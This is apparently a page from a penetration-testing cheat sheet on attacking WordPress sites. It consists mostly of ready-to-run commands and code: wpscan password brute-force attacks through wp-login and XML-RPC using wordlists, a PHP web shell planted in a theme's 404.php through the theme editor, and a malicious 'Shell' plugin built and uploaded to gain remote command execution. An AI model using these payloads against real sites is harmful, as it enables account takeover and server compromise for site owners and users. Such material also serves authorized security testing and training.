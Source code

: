 ### User Enumeration & Authentication

#### WordPress User Roles
```
Administrator - Full system access, code execution capability
Editor       - Publish/manage all posts, access to files
Author       - Publish/manage own posts
Contributor  - Write/manage own posts (cannot publish)
Subscriber   - Read posts, edit own profile
```

#### Password Attacks
```bash
# XML-RPC brute force (faster)
wpscan --url http://target.com --password-attack xmlrpc -U users.txt -P passwords.txt

# Standard login brute force
wpscan --url http://target.com --password-attack wp-login -U admin -P /usr/share/wordlists/rockyou.txt

# Single user brute force
wpscan --url http://target.com --password-attack xmlrpc -U admin -P passwords.txt -t 20

# Multiple users from file
wpscan --url http://target.com --password-attack xmlrpc -U users.txt -P passwords.txt
```

### WordPress Exploitation

#### Theme Editor Code Execution
```php
# Login with admin credentials
# Navigate to: Appearance > Theme Editor
# Select inactive theme (e.g., Twenty Nineteen)
# Edit 404.php or another uncommon file
# Add PHP code execution:

<?php system($_GET['cmd']); ?>

# Access webshell:
# http://target.com/wp-content/themes/twentynineteen/404.php?cmd=id
```

#### Plugin Upload RCE (Admin Access Required)
```bash
# Create malicious plugin
cat > shell.php << 'EOF'
<?php
/*
Plugin Name: Shell
Description: Webshell
Version: 1.0
*/
system($_GET['cmd']);
?>
EOF

# Zip the plugin
zip shell.zip shell.php

# Upload via: Plugins > Add New > Upload Plugin
# Activate and access: /wp-content/plugins/shell/shell.php?cmd=id
```
